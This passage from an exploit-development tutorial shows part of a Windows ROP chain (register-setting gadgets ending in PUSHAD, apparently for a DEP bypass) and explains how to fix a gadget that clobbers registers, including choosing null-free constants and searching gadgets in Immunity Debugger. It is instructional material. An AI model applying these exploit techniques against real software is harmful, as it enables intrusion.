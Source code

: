    ```
            #[---INFO:gadgets_to_set_edx:---]
            0x77a9683b,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0xa0a7feb7,  # put delta into eax (-> put 0x00000040 into edx)
            0x75d1280f,  # ADD EAX,5F580189 # POP ESI # POP EBX # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x75bb14f5,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ecx:---]
            0x77c8f383,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
            0x766b8056,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x76033f63,  # POP EDI # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x75bbc645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x75bee202,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x779cba6c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      ]
      return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
   ```

2. There was an error in this ROP chain that was discovered while debugging. The chain of gadgets for setting EDX used the following gadget to put 0x40 into EDX:
   ```
   0x75d1280f,  # ADD EAX,5F580189 # POP ESI # POP EBX # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
   ```
   * The problem with this gadget is that it also changes the values in ESI, EBX, and EBP which had already been set. 

3. There are different ways to fix the problem. What was done to fix this used the same method to set edx, but with different instructions. You need to search for the following instruction sequence.
   ```
   ADD EAX,CONST
   RETN
   ```
   * Since delta should not contain any null byte, a CONST that meets the requirement must be selected according to the relationship between CONST and the delta.
      - `CONST + delta = 0x1 0000 0040`

4. To search for specific instruction sequences in Immunity debugger, you can do the following:

   - Right click the debugging window -> Search for -> all sequences in all modules.
